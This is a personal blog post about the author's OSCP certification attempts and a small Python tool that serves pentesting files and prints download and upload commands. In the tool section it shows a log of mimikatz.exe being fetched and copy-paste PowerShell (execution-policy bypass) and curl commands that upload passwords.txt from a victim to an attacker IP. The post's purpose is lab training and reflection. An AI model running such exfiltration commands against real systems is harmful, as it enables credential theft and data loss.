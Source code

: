 ```yaml
---
title: "Writing Tools and Learning"
date: 2025-01-19
---
```


## Intro

When I started my career in security, getting the OSCP certification was one of my first goals. Unfortunately, I failed my first attempt. A bit over four years later, I retook the exam and passed. The journey between attempts was not as linear as I had imagined and it has taken me some time to finally write out some of my thoughts on the process.

Before reflecting, I want to share a simple tool I wrote to help me during the exam. I understand that this is a small, personal, and sporadic blog, but I think of it as a way to look back on my previous lines of thinking. Additionally, if something here helps even just one person on a similar journey, that would be a great accomplishment for me. 

## Transferring Files

Throughout the OSCP curriculum, a recurring scenario is the need to transfer files between machines. This could be for initial foothold payloads, privilege escalation scripts, or exfiltrating documents for analysis (or dumping secrets!). Offsec's learning materials show a few different ways to accomplish this task through SMB, FTP, or HTTP. There are also many other ways to accomplish this task. While reading [a post on The DFIR Report](https://thedfirreport.com/2024/10/28/inside-the-open-directory-of-the-you-dun-threat-group/) describing a threat actor's open directory, I realized how much easier it would be to have an always-on http server to pull tooling from when needed. Also, it is important to avoid fiddling around and learning new tooling during a certification exam when time is a resource and also a source of anxiety.

Like many others, I initially started out using Python's built-in http server module. However, I frequently found the need to upload files from victim machines to the attack machine. I started using [goshs](https://github.com/patrickhener/goshs), (which is an amazing tool and has now been added to the kali repos,) but I wanted an easy way to upload files straight from a command line. (I believe this is possible since goshs has a GUI for uploads but I did not look too deep into this.) Also, after a few months of grinding machines on Vulnhub and Proving Grounds, I had accumulated a long list of scripts and tools for pentesting that became a pain to look through every time I needed something. My idea was to write a  command line tool to search through my folder of tools and spit out a command to run on a victim machine. It is definitely possible that someone has already solved this problem but I figured I should get some scripting exercise in and build something from the ground up. 

# What it does

Github: [hosting](https://github.com/ky2303/hosting)

Since you are usually on Offsec's VPN when doing the labs or exam, the script uses the IP address of `tun0` and the default port (8000) from Python's module. This can be changed with startup arguments. There are four commands to use in the tool: download, logs, search, upload. They all have single letter aliases (d, l, s, u). 

Demo:

```bash
$ python3 hosting.py -p 80
VPN: ON
IP : 192.168.61.128
HTTP server started at http://localhost:80

Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
Welcome to the file search CLI. Type help or ? to list commands.
>> 
```

![search]({{ "../assets/2025-01-19-writing-tools/search.png" | relative_url }})

![download]({{ "../assets/2025-01-19-writing-tools/download.png" | relative_url }})


# Commands

**Logs:** Since the tool runs the HTTP server and CLI modules together, output became a bit messy so I decided to log everything from the server module to a file. This file can be shown by using `logs`. It will display the last 5 lines in the log file unless given an integer as an argument. The log file is deleted when exiting the CLI unless the `-l` argument is set to `True` when starting.

```bash
>> logs
2025-01-19 11:25:23,239 - "GET /mimikatz/x64/mimikatz.exe HTTP/1.1" 200 -
2025-01-19 11:26:42,177 - "GET /mimikatz/x64/mimikatz.exe HTTP/1.1" 200 -
```

**Search:** This function searches the hosted directory for a filename given as an argument. If a match is found, it shows both linux and windows commands to download the file, making it easy to copy/paste commands. This was the main usecase I had in mind for this tool and I use it a lot.


**Upload:** Continuing with the theme of easy copy/pasting, this function displays linux and windows commands to upload files to the folder where this script is run from. The http server class had to be extended a bit to add this functionality, but someone had already solved this problem so I copied [their code](https://gist.github.com/darkr4y/761d7536100d2124f5d0db36d4890109) for this part. I did run into some issues with files that were too large. (See below)

```bash
>> uploads passwords.txt
[*] Win upload command:
powershell -ep bypass -c "(New-Object Net.WebClient).UploadFile('http://192.168.61.128:80/passwords.txt', 'PUT', 'passwords.txt');"
[*] Linux upload commands:
curl -X PUT -T "passwords.txt" "http://192.168.61.128:80/passwords.txt"
```

# Future 

I recently watched a talk given by Tom Hudson that I enjoyed. I first heard of Tom (aka Tomnomnom) while listening to the Critical Thinking Bug Bounty podcast with Justin Gardner (aka rhynorater). In the talk, Tom shares a few great points about writing tools. I think Tom's idea of making simple tools that do one thing well is great and plan to continue iterating with this in mind.

The talk can be found here:

[Confessions of a Toolmaker - Tom Hudson](https://www.youtube.com/watch?v=lFBAo9TKRY8)

While testing and writing the tool, I ended up integrating most of the `download` functionality into the `search` function. As a result, I almost never use the `download` function and will most likely remove it going forward. I also would like to fix the issue with larger files when sending PUT requests. I did not look into this closely so when I came across the problem, I used the `download` function in Evil-WinRM on windows machines or `scp` on linux. 


## Reflections

Back to my thoughts on the certification process. After failing my first exam attempt, I realized that I was way too overconfident . I had crested the initial competence vs confidence peak of the Dunning-Kruger curve.

![dunning_kreuger]({{ "../assets/2025-01-19-writing-tools/dunning-kreuger.png" | relative_url }}){:style="display:block; margin-left:auto; margin-right:auto"}

As I took a step back, I realized how many fundamental concepts I did not fully grasp. I did not give the labs as much time and thought as I should have and I quickly skimmed through the PDF that OffSec gives you. While this approach may have worked in exams in former academic environments, it was inadequate for a practical exam in a simulated environment. Unfortunately, I needed a job so I decided to shelf the idea of getting the OSCP and hammered out some entry-level CompTIA certs to get past the HR filters. 

Fast-forward to mid-2024, I had been comfortably working in a security role for about two years, participated in a few more CTFs, and completed almost every list of OSCP-like machines on Vulnhub that I could find. I decided to get the Learn-One subscription to OffSec which comes with the OSCP curriculum, access to a lot more practice machines, and two exam attempts. I scheduled my exam for September and started studying. 

At the end of August, OffSec announced that they were changing the exam format to an "assumed compromise" scenario, while removing the bonus points for doing labs and creating an "OSCP+" certification that expires every 3 years. This was about three weeks before my scheduled exam date but it would not take effect until November. I thought about what to do for a few days but ultimately decided that since the original certification did not expire and I had already put many hours into doing the labs to get bonus points, it was best to stick to my original plan and take the exam in September. Thankfully, I passed and the bonus points helped. 

I now had the decision on whether I should use my second exam attempt on the wireless pentesting exam (OWSP) or try the OSCP+. Around this time, I realized that the pressure and anxiety that I put on myself to pass the exam had caused some health issues so I decided to take a little break from studying. After about a month of rest, I started doing practice machines again and decided to attempt the OSCP+ right after the holidays. What a terrible idea.

Unfortunately, I did not pass the OSCP+ exam. In the few days after, I was devastated. I constantly went over different enumeration methods and attacks I may have missed in my head. The feeling of failure after my first attempt returned, and I felt that I had crested another peak in another Dunning-Kruger curve. I realized my own curve looked something like this:

![dunning_kreuger]({{ "../assets/2025-01-19-writing-tools/dunning-kreuger-modified.png" | relative_url }}){:style="display:block; margin-left:auto; margin-right:auto"}

(Apoloigies for the quality. Graphic design is not my passion)

After some time and reflection, I figured that I had accomplished the original goal I set for myself when I first started out this journey. Even with the failures, I learned new things -- in security and about myself -- that made the input time valuable. 

In the past couple of years, I have picked up two things that helped me cope with career lows. First, after the Denver Nuggets won their first NBA championship in franchise history in 2023, center Nikola Jokic had one of my favorite recent quotes:

![jokic]({{ "../assets/2025-01-19-writing-tools/jokic.jpg" | relative_url }}){:style="display:block; width:600px"}

Second, I recently picked up a practice from a podcast I enjoy called "My First Million" with Sam Parr and Shaan Puri. In one episode, Puri talks about a personal Slack channel he has called "Highs and Lows" in which he writes down the most emotional moments while running his businesses. When an extreme event happens, whether good or bad, Puri will write down the event in the channel, overtime creating a log of moments to look back on and see how far you have come. I have started to do this in my own way by writing down these events for my own career (though not in a Slack channel). Doing this has been helpful, and my hope is that in the long-term it will help me smooth out my own modified Dunning-Kruger curve above, balancing emotions with confidence and competence. The last mention of Puri's "Highs and Lows" channel is at the 46:29 mark here: [MFM youtube](https://youtu.be/8yIrBHghAJE?si=XtSmc9IEeMfq-jTA&t=2789)
